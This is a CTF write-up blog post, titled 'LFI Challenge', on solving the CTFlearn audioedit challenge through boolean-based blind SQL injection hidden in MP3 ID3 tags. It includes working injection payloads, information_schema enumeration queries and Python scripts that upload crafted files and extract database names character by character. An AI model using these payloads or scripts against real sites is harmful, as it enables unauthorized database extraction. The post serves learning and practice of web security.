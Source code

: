 ```yaml
---
layout: post
title:  "LFI Challenge"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>
## Description
The CTF was about exploit a terribly insane blind SQLi. I started doing the CTF in the morning, lost my entire day on simple mistakes, and got really frustrated when doing the challenge. The URL given to me was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge at night from my friend Jokr.

### Finding the Injection
As its name suggests, it takes `.mp3` file and edits it. So, we have a file upload which leads to an edit page with a unique generated filename. I tried playing with file upload. Eventually, it leads me to nowhere and I assumed file upload was secure. So, what to do then. Well, it took me some time to realize the file was being fetched from the database. The parameter looked like this: [file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isn't here still I tried SQL injection and injecting a quote, I got error **" Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for some time again failed me. It wasn't working for some reason (not because of rabbit). Later, injecting " gave me the same error as '  which means it's not vulnerable. I took some caffeine and started thinking where could I find a possible attack vector as I could only upload .mp3. 

Later he gave a hint that SQLi is in Exif metadata. Also, `exiftool` didn't work for the mp3 file, so I had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmd line script for the situation.

### Knowing the Injection
First, I found the vulnerability by adding ' and " and then confirmed it. `mid3v2 -a "' or '" testing.mp3` is an example of how to inject SQL payload to music tags. I got 0 in author response which indicates condition evaluated to False. Since, running the program, uploading it, and checking the condition is lengthy, I used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time I tried something new, it gave an error. One more thing to notice is that uploading file with the same content but entirely different filename caused **File Exist** error to be thrown. Mine frustration slowly increased with time, later I found out it was because I directly edited the request from burp suite *(which I should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally, I found out what I was exploiting was boolean-based blind SQLi. The injection point was `' or SQL COMMAND or '`. For further confirmation, I did this which I thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.

### Exploring SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get DBMS, tables... He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didn't work as it was `MySQL`. He also said about how to get a database, table, and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  which returned 1 and is equivalent to boolean true. 

Then, moving forward to finding the current database which was not easy but ok. Since it was boolean-based blind doing it by hand would take ages. So, I coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with an explanation.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is an SQLExploit object which I will talk later and tries all the character while the `reset()` function opens the mp3 file again. I ran into a problem where the first query ran successfully while the second error out in a while loop. This again wasted my 10 minutes along with giving me some irritation. Later I fixed it by reopening the file each time I execute the loop. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need let's start the exploit. Also, some part was slightly modified in this code which I won't show as it's not necessary.
Now, let's run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Let's go for a table. I asked him about how to find tables and hinted about information_schema. I created a similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, it's hard to include this upper payload in SQLi, and that's why I did the `substr()` method. Also, after debugging my payload and improving it I get:     

`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`   
 
I also modified the `setcmd()` function slightly and exploiting gives me `audioedit` which is the same as the database name. Ah, I was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema I used this:   

`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First, I thought limit was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when the payload was large, then I added ()  which caused the error. Oh, so spaces are the problem. Why the hell did I use 2=2. Shit. Also, i reduced `get_random_string()` to length of 2. Finally, it worked like a charm and got the first column name, then second, then third... 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column File and found out the flag was in file `supersecretflagf1le.mp3`. So, I used the file parameter to reference that file, and unfortunately, I didn't get a flag. 

### Audio Editing
Its the final step, setting visualization to a sonogram and editing some other kind of stuff, I got the flag embedded in the image. After submitting I felt quite relaxed.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

I used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


### Takeaway 

* Always check for the length of SQL query you can inject.
* Pay attention to smaller details to prevent error.
* Never edit a binary by hand in Burpsuite. It's prone to errors.


